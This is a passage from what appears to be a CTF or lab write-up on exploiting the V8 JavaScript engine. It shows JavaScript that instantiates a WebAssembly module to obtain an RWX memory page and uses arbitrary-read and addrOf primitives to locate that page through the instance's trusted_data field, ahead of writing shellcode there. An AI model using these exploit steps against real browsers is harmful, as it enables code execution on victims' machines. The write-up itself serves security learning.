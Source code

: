 ### Code Execution

to gain code execution, I will go through the web assembly shellcode route, where we will allocate a page for a wasm code to get an rwx page and overwrite it with our shellcode instead.

I initially thought of why bother go through the previous primitives if we're able to execute wasm code anyway, can't we just make the wasm code our malicious code instead? the answer is no because its simply not a valid wasm code (I think lol)

to do this, lets instantiate a valid web assembly:

```javascript
var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
var wasm_mod = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_mod);
var f = wasm_instance.exports.main;
```

the next part is quite different from the blog and video I linked, in their case, the rwx page can be found at an offset from `wasm_instace` however in this case I found the offset is quite random and not always fixed.&#x20;

after quite a bit of repeated `dp(wasm_instance)` I found that the `wasm_instance` has a field called `trusted_data` that contains the rwx page, which seems to be at a fixed offset.

<figure><img src="../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

so calculate the offset and do the dereferencing stuff, we're able to get a reliable address of the rwx page

```javascript
var wasm_trusted_data = arb_read(addrOf(wasm_instance) + 0x8n) >> 32n;
console.log("[+] trusted data: 0x" + wasm_trusted_data.toString(16));
var rwx = arb_read(wasm_trusted_data + 0x30n);
console.log("[*] rwx: 0x" + rwx.toString(16));
```
